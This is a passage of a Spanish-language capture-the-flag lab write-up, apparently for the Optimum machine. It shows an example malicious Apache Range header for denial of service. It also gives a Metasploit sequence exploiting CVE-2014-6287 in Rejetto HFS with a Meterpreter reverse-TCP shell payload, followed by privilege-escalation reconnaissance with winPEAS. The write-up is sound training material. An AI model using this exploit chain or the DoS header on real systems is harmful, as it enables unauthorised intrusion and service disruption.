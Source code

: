 Ejemplo de cabecera maliciosa:

```
Range: bytes=0-1,0-2,0-3,...,0-999999999
```

- Esto hace que Apache intente procesar miles de rangos, lo cual agota la memoria.

## Impacto

- No permite ejecucion de codigo ni acceso no autorizado.
- Solo provoca caida del servidor web (DoS).
- Puede ser explotado sin autenticacion
- Muy simple de ejcutar en versiones vulnerables.


Pero en esta caso para aprovechar un RCE, vamos usar el siguiente CVE: CVE-2014-6287

Descripcion:

- Afecta a versiones de HSF <= 2.3c
- Se debe a una falta de validacion en los parametros de una plantilla de scripting.
- Un atacante puede ejecutar comandos arbitrarios del sistema operativo a traves de una URL especialmente creada.

Tipo de vulnerabilidad: RCE (Remote Command Execution)

## Vamos a explotar la vulnerabilidad con Metasploit:

```
msfconsole

use exploit/windows/http/rejetto_hfs_exec
set RHOST 10.10.10.8
set RPORT 80
set LHOST ip
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

Encontramos el user.txt en kostas/Desktop/user.txt

![Pasted image 20250522195207.png](/img/user/Imagenes/Pasted%20image%2020250522195207.png)

Procederemos a subir winpeas con metasploit:

Damos un:
- sysinfo

Este comando se usa principalmente en Meterpreter (Metasploit) para obtener informacion del sistema comprometido.

![Pasted image 20250522195623.png](/img/user/Imagenes/Pasted%20image%2020250522195623.png)

Con esto podemos saber si el sistema es de 64 bits o 32 bits por ejemplo.

Descargaremos winpeas desde aqui: https://github.com/peass-ng/PEASS-ng/releases
